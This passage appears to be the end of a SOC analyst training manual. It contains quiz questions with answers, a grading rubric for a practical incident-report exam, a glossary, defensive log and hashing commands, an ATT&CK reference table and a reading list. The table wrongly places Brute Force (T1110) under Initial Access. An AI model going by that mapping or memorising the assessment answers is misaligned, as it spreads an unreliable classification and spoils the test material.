What is AbuseIPDB used for?
Answer: Checking IP address reputation for malicious activity.

CTI
What is Cyber Threat Intelligence?
Answer: Evidence-based knowledge about threats that informs security decisions.

What are the four types of threat intelligence?
Answer: Strategic, Operational, Tactical, Technical

What is the CTI lifecycle?
Answer: Direction → Collection → Processing → Analysis → Dissemination → Feedback

Threat Hunting
What is threat hunting?
Answer: Proactive search for threats that have evaded existing security controls.

What is the difference between threat hunting and alert-based detection?
Answer: Threat hunting is proactive (hunter initiates search); alert-based detection is reactive (alert triggers response).

MITRE ATT&CK
What is MITRE ATT&CK?
Answer: A knowledge base of adversary tactics and techniques based on real-world observations

What is the difference between a tactic and a technique?
Answer: A tactic is the adversary's goal; a technique is the method used to achieve it.

Incident Response
What are the phases of incident response?
Answer: Detection, Containment, Eradication, Recovery, Lessons Learned

What is the difference between risk and confidence?
Answer: Risk is the potential impact; confidence is how certain we are of the assessment.

Practical Final Assessment
Scenario
You are a SOC analyst at NexusTech Solutions. You receive an alert about suspicious activity. Investigate and produce a report.

Dataset
(Same as Operation Shadow Trace dataset)

Grading Rubric (100 marks total)
Section	Marks
Executive Summary	5
Incident Overview	5
Detection Source	3
Initial Alert	3
Investigation Methodology	5
Evidence	5
IOC Table	8
IOC Enrichment	8
Timeline	8
Threat Intelligence	5
Threat Actor Assessment	5
MITRE ATT&CK Mapping	8
Risk Assessment	5
Confidence Assessment	3
Scope Assessment	3
Containment Recommendations	5
Eradication Recommendations	3
Recovery Recommendations	3
Detection Improvements	3
Lessons Learned	3
Final Analyst Conclusion	3
Total	100
GLOSSARY
Term	Definition
Alert	A notification that a security event may be suspicious
Authentication	The process of verifying a user's identity
Brute Force	An attack that tries many passwords against a single account
Confidence	How strongly evidence supports a conclusion
Containment	Limiting the impact of an incident
Correlation	Connecting related security events
Credential Stuffing	Using stolen credentials from one breach to access other accounts
CTI	Cyber Threat Intelligence – evidence-based knowledge about threats
Dark Web	Part of the internet requiring special software for access
EDR	Endpoint Detection and Response
Enrichment	Adding context to an IOC
Eradication	Removing the threat from the environment
Event	Any observable occurrence in a system
False Positive	An alert that incorrectly identifies benign activity as malicious
Hash	A unique digital fingerprint of a file
Incident	A confirmed security event requiring response
IOC	Indicator of Compromise – evidence of potential compromise
IOA	Indicator of Attack – behavioral pattern of an attack
L1 Analyst	Tier 1 SOC analyst – performs alert triage
L2 Analyst	Tier 2 SOC analyst – performs deep investigation
L3 Analyst	Tier 3 SOC analyst – performs advanced investigation
Leak Claim	An assertion that an organization's data has been stolen
Malware	Malicious software designed to harm systems
MITRE ATT&CK	Knowledge base of adversary tactics and techniques
Onion Service	A website accessible only through the Tor network
Password Spraying	An attack that tries one password against many accounts
Recovery	Restoring systems to normal operation
Risk	Potential impact of a threat exploiting a vulnerability
Severity	The potential damage an incident could cause
SIEM	Security Information and Event Management
SOC	Security Operations Center
Sub-technique	A specific variant of a technique
Tactic	The adversary's goal in an attack
Technique	The method used to achieve a tactic
Threat Actor	An individual or group responsible for an attack
Threat Hunting	Proactive search for undetected threats
Tor	The Onion Router – a network for anonymous communication
Triage	Prioritizing alerts based on severity and impact
TTP	Tactics, Techniques, Procedures – how attackers operate
Wazuh	Open-source SIEM and XDR platform
XDR	Extended Detection and Response
MASTER COMMAND REFERENCE
Windows Commands
Command	Purpose
eventvwr.msc	Open Event Viewer
wevtutil qe Security /c:100 /f:text	Query Security log (last 100 events)
wevtutil qe Security /c:100 /f:text /rd:true	Query Security log (newest first)
wevtutil qe Security /c:100 /f:text /q:"*[System[EventID=4624]]"	Query Security log for Event ID 4624
PowerShell Commands
Command	Purpose
Get-EventLog -LogName Security -InstanceId 4624 -Newest 100	Get recent Event ID 4624 events
Get-EventLog -LogName Security -InstanceId 4625 -Newest 100	Get recent Event ID 4625 events
Get-EventLog -LogName Security -InstanceId 4688 -Newest 100	Get recent Event ID 4688 events
Get-FileHash -Path C:\path\to\file -Algorithm SHA256	Calculate SHA-256 hash of a file
Linux Commands
Command	Purpose
sha256sum filename	Calculate SHA-256 hash
md5sum filename	Calculate MD5 hash
grep -r "pattern" /var/log/	Search logs for pattern
Wazuh Commands
Command	Purpose
systemctl status wazuh-manager	Check Wazuh manager status
systemctl status wazuh-agent	Check Wazuh agent status
tail -f /var/ossec/logs/alerts/alerts.log	View Wazuh alerts in real-time
/var/ossec/bin/agent_control -l	List connected agents
/var/ossec/bin/agent_control -i <agent_id>	Get agent information
Hash Investigation
Tool	Command/URL	Purpose
VirusTotal	https://www.virustotal.com/gui/search/<hash>	Check hash reputation
AbuseIPDB	https://www.abuseipdb.com/check/<ip>	Check IP reputation
AlienVault OTX	https://otx.alienvault.com/indicator/<ioc>	Check IOC intelligence
MASTER TOOL REFERENCE
Tool	Purpose	Day	Topic	Difficulty	Official Documentation
Event Viewer	Windows log analysis	1	2	Beginner	Microsoft Learn
Wazuh Dashboard	SIEM investigation	1	4	Intermediate	documentation.wazuh.com
VirusTotal	Hash/URL reputation	1,2	5,3	Beginner	virustotal.com
AbuseIPDB	IP reputation	1,2	5,2	Beginner	abuseipdb.com
AlienVault OTX	Threat intelligence	1,2	5,2	Beginner	otx.alienvault.com
URLScan	URL analysis	2	2	Beginner	urlscan.io
MITRE ATT&CK	TTP mapping	2	9	Intermediate	attack.mitre.org
MASTER INVESTIGATION CHECKLIST
SOC Analyst Investigation Checklist
text
[ ] Alert understood – What is the alert telling me?
[ ] Alert validated – Is this a real security event?
[ ] User identified – Which user account is involved?
[ ] Host identified – Which system is affected?
[ ] Source IP identified – Where did the activity come from?
[ ] Destination identified – What is the target?
[ ] Timeline established – When did events occur?
[ ] IOC extracted – What are the indicators?
[ ] IOC enriched – What context can I add?
[ ] Related events searched – Are there other alerts?
[ ] Scope assessed – How many systems are affected?
[ ] Threat intelligence checked – What do we know about this threat?
[ ] ATT&CK mapping completed – What TTPs are involved?
[ ] Risk assessed – What is the potential impact?
[ ] Confidence assessed – How certain are we?
[ ] Response recommended – What actions should be taken?
[ ] Evidence documented – Is everything recorded?
[ ] Analyst conclusion written – What is the final assessment?
MITRE ATT&CK REFERENCE
Key Enterprise Tactics
Tactic	ID	Description
Reconnaissance	TA0043	Gather information about the target
Resource Development	TA0042	Acquire resources for the attack
Initial Access	TA0001	Gain entry to the network
Execution	TA0002	Run malicious code
Persistence	TA0003	Maintain access
Privilege Escalation	TA0004	Gain higher privileges
Defense Evasion	TA0005	Avoid detection
Credential Access	TA0006	Steal credentials
Discovery	TA0007	Learn the environment
Lateral Movement	TA0008	Move to other systems
Collection	TA0009	Gather data
Command and Control	TA0011	Control compromised systems
Exfiltration	TA0010	Steal data
Impact	TA0040	Damage systems/data
Common Techniques Used in This Course
Technique	ID	Tactic
Brute Force	T1110	Initial Access
Spearphishing Attachment	T1566.001	Initial Access
PowerShell	T1059.001	Execution
Scheduled Task	T1053.005	Persistence
Application Layer Protocol	T1071	C2
Remote Services	T1021.001	Lateral Movement
Data Encrypted for Impact	T1486	Impact
REFERENCES & FURTHER READING
Tier 1: Official Documentation and Standards
Reference	Organization	Link	Purpose
MITRE ATT&CK Enterprise Matrix	MITRE	https://attack.mitre.org/matrices/enterprise/	TTP mapping
NIST SP 800-61r3	NIST	https://csrc.nist.gov/pubs/sp/800/61/r3/final	Incident response guidance
Microsoft Windows Security Events	Microsoft	https://learn.microsoft.com/en-us/windows/security/threat-protection/auditing/	Event ID reference
Wazuh Documentation	Wazuh	https://documentation.wazuh.com/	SIEM platform guide
NIST Cybersecurity Framework 2.0	NIST	https://www.nist.gov/cyberframework	Risk management framework
Tier 2: High-Quality Security Research
Reference	Organization	Purpose
CISA Alerts	CISA	Current threat intelligence
SANS Reading Room	SANS	Security research and whitepapers
FireEye/Mandiant Reports	Mandiant	Threat actor research
Tier 3: Educational Resources
Reference	Organization	Purpose
TryHackMe SOC Level 1	TryHackMe	Practical SOC training
Let's Defend	Let's Defend	SOC simulation
Blue Team Labs Online	BTL	Defensive security labs
CyberDefenders	CyberDefenders	Blue team challenges
This completes the Professional 2-Day SOC & Advanced Threat Intelligence Training Manual. All content is current as of the publication date and based on official documentation from MITRE, NIST, Microsoft, and Wazuh.

---

